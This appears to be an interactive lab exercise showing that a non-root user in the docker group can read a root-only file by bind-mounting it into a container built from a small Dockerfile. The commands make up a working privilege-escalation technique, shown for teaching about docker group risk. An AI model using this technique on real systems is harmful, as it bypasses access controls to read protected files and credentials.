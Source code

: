 Let's write a super secret message in a file that only root can read:

`echo "top secret secret" >> /root/secrets.txt`{{execute}}

`chmod 0600 /root/secrets.txt`{{execute}}


Now, we're going to try to read it as a non-root user:

`ls -l /root/secrets.txt`{{execute}} 

`su - mindundi`{{execute}} 

`cat /root/secrets.txt`{{execute}} 

Ops, seems that we can't read it, but our user `mindundi` can use docker right?

`id`{{execute}}
`docker ps`{{execute}}

Okey, so let's build a simple docker image:

<pre class="file" data-filename="/home/mindundi/Dockerfile" data-target="replace">
FROM alpine:3.7
CMD ["cat", "/tmp/secrets.txt"]
</pre>

`docker build -t ourimage .`{{execute}} 

`docker run -v /root/secrets.txt:/tmp/secrets.txt ourimage`{{execute}} 

BOOM! We're accessing a file owned by root with a non-root user.